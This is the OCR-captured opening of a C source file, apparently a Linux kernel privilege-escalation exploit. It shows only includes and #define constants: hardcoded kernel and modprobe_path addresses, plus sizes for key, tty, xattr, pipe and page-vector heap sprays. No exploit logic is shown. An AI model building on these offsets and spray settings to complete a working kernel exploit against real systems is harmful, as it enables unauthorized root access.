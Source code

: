 ```
#include <sched.h>
#include <pthread.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <sys/xattr.h>
#include <sys/syscall.h>
#include <sys/wait.h>
#include <sys/shm.h>
#include <linux/keyctl.h>
#include <stdint.h>
#include <stdbool.h>
#include <time.h>
#include <zlib.h>
#include <endian.h>
#include <stdint.h>
#include <linux/types.h>
#include <errno.h>
#include <sys/mount.h>
#include <pwd.h>
#include <grp.h>
#include <semaphore.h>


#define KEY_DESC_MAX_SIZE 900
#define XATTR_NAME_MAX_SIZE 1024
#define MODPROBE_PATH "/proc/sys/kernel/modprobe"
#define BUFFER_SIZE 256

/*#define DEBUG_CROSSCACHE 1*/

/* see security/keys/key.c */
#define SPRAY_KEY_SIZE 13
#define SPRAY_KEY_SIZE_INIT 6
#define SPRAY_TTY_INITIAL 6
#define SPRAY_TTY_SIZE 9
#define SPRAY_XATTR_SIZE_MODPROBE 15

#define do_error_exit(msg) do {perror("[-] " msg); exit(EXIT_FAILURE); } while (0)

#define KERNEL_BASE_LOWER 0xffffffff80000000
#define KERNEL_BASE_UPPER 0xffffffffc0000000

#define OFFSET_2ND_PTR 0x230
#define OFFSET_3RD_PTR (OFFSET_2ND_PTR + (0x60))

#define BASE_ADDR_FIRST 0xffffffff82284be0
#define BASE_ADDR_SECOND 0xffffffff81631bc0
#define BASE_ADDR_THIRD 0xffffffff81633e30

#define MODPROBE_ADDR_ONE 0xffffffff82b3f638
#define MODPROBE_ADDR_TWO 0xffffffff82b3f63c

#define KERNEL_BASE 0xffffffff81000000

#define PIPE_SPRAY_NUM 20

#define PGV_1PAGE_SPRAY_NUM 0x100

#define PGV_4PAGES_START_IDX PGV_1PAGE_SPRAY_NUM
#define PGV_4PAGES_SPRAY_NUM 0x100

#define PGV_8PAGES_START_IDX (PGV_4PAGES_START_IDX + PGV_4PAGES_SPRAY_NUM)
```